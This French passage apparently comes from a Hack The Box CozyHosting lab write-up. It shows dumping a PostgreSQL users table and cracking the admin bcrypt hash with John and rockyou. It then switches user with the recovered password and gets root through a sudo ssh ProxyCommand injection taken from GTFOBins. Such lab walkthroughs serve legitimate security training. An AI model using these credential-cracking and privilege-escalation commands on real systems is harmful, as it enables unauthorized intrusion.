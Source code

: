 On exécute ensuite `select * from users;`, avec cette commande PostgreSQL va récupérer toutes les lignes et toutes les colonnes de la table "users" et les retourner en tant qu'ensemble de résultats. Cette requête est couramment utilisée pour visualiser le contenu d'une table et peut être très utile pour inspecter les données stockées dans la base de données.

Nous trouvons deux hashs

![cozyhosting-db-hashes](/images/HTB-CozyHosting/db-hashes.png)

Voyons de quel type de hachage il s'agit (bien sûr, nous sommes intéressés par le hachage de l'administrateur car nous sommes déjà connectés en tant que kanderson).

```
hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' 
```
![cozyhosting-hash-ID](/images/HTB-CozyHosting/hashid.png)

### Mouvement Latéral

Essayons de craquer le hash. Tout d'abord, je l'enregistre dans un fichier.

```
echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
```

> Si vous ne voulez pas utiliser `John`, utilisez ce site web [hashes.com](https://hashes.com/en/decrypt/hash)

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

J'obtiens le mot de passe `manchesterunited`.

De retour sur le reverse shell, exécutez `ls -la /home` et vous verrez un autre répertoire appartenant à l'utilisateur `josh`.

![cozyhosting-home-content](/images/HTB-CozyHosting/home-listing.png)

On bascule sur l'utilisateur `josh` avec `su josh` et le mot de passe qu'on vient de craquer. On utilise ensuite `cd $home` pour aller dans son répertoire personnel et on y trouve le drapeau `user.txt`!

![cozyhosting-user-flag](/images/HTB-CozyHosting/userflag.png)

## Escalade des privilèges

J'utilise `sudo -l` pour voir ce que cet utilisateur peut exécuter.

![cozyhosting-sudo-l](/images/HTB-CozyHosting/sudo-l-josh.png)

Je vais sur [GTFObins](https://gtfobins.github.io/gtfobins/ssh/#sudo) pour trouver des commandes ssh root shells et j'utilise

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
